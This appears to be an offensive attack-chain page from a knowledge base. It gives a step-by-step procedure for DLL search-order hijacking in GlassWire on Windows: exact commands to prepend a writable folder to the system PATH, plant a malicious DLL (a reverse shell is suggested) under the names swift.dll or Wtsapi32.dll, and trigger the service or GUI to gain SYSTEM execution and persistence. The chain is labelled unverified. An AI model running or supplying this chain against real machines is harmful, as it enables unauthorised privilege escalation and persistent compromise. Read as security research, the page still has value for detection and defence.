

# DLL Hijacking in GlassWire for Privilege Escalation to SYSTEM

Multi-stage attack chain demonstrating DLL hijacking via uncontrolled search path in GlassWire, leading to code execution as SYSTEM or the logged-in user.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Process-Monitor]]
- Compiler or tool to create malicious DLL (e.g., Visual Studio or MinGW)

### Target Environment

- Windows OS (32-bit executables)
- GlassWire installed (Service: GWCtlSrv.exe, GUI: GlassWire.exe in C:\Program Files (x86)\GlassWire\)
- Writable directory access (e.g., user-controlled folder like C:\Dima\)

### Initial Access Requirements

- Local user access to modify environment variables
- Ability to reboot or start services (admin for service, user for GUI)
- No prior network access needed; local exploitation

## Detailed Attack Procedures

### Step 1: Modify PATH Environment Variable
procedure: [[procedures/Modify-PATH-Environment-for-DLL-Hijacking]]

**Objective**: Prepend a writable directory to the PATH to control DLL loading order.

**Instructions**: Use [[commands/set-path-variable]] to prepend a custom writable folder to the system PATH:

```cmd
setx PATH "C:\\Dima\\;%PATH%" /M
```

Reboot or log off/on for changes to take effect in new processes. Verify with [[commands/echo-path]]:

```cmd
echo %PATH%
```

**Expected Output**: PATH starts with C:\Dima\; followed by original paths.

**Success Indicators**:
- Writable directory appears first in PATH
- No errors in environment modification

### Step 2: Place Malicious DLL
procedure: [[procedures/Place-Malicious-DLL-in-Writable-Directory]]

**Objective**: Drop a malicious DLL named after a loaded module in the prepended PATH directory.

**Instructions**: Compile or copy a malicious x86 DLL (e.g., using a reverse shell payload) and place it using [[commands/copy-malicious-dll]]:

For service: ```cmd
copy malicious.dll C:\\Dima\\swift.dll
```

For GUI: ```cmd
copy malicious.dll C:\\Dima\\Wtsapi32.dll
```

Use [[tools/Process-Monitor]] to confirm target DLL names like swift.dll or Wtsapi32.dll.

**Expected Output**: Malicious DLL in C:\Dima\ with correct name and architecture.

**Success Indicators**:
- DLL file exists in writable directory
- Matches exact name and is 32-bit

### Step 3: Trigger GlassWire Service
procedure: [[procedures/Trigger-GlassWire-Service-for-SYSTEM-Execution]]

**Objective**: Cause the service to load the malicious DLL as SYSTEM for privilege escalation.

**Instructions**: Reboot the system or manually start the service using [[commands/start-glasswire-service]]:

```cmd
net start GWCtlSrv
```

Monitor with [[tools/Process-Monitor]] for DLL load from C:\Dima\.

**Expected Output**: Service starts, malicious DLL loads, code executes as SYSTEM.

**Success Indicators**:
- Process Monitor shows DLL load from custom path
- Reverse shell or payload activates with SYSTEM privileges

### Step 4: Trigger GlassWire GUI
procedure: [[procedures/Trigger-GlassWire-GUI-for-User-Execution]]

**Objective**: Launch the GUI to load the malicious DLL as the logged-in user for persistence.

**Instructions**: Log on and run GlassWire.exe using [[commands/launch-glasswire-gui]]:

```cmd
start "" "C:\\Program Files (x86)\\GlassWire\\GlassWire.exe"
```

Observe DLL loading in [[tools/Process-Monitor]].

**Expected Output**: GUI launches, DLL hijacked, code runs as user.

**Success Indicators**:
- GUI process loads DLL from PATH
- Payload executes in user context, enabling persistence

## Attack Chain Summary

### Key Achievements

1. Modified PATH to enable DLL search order hijacking
2. Achieved SYSTEM privilege escalation via service trigger
3. Established user-level persistence via GUI execution
4. Demonstrated arbitrary code execution in multiple contexts

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Hijack Execution Flow]] Hijack Execution Flow
- [[DLL Search Order Hijacking]] DLL Search Order Hijacking

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Privilege Escalation]] Privilege Escalation
- [[Persistence]] Persistence

---
*Last updated: 2023-10-01T00:00:00Z*
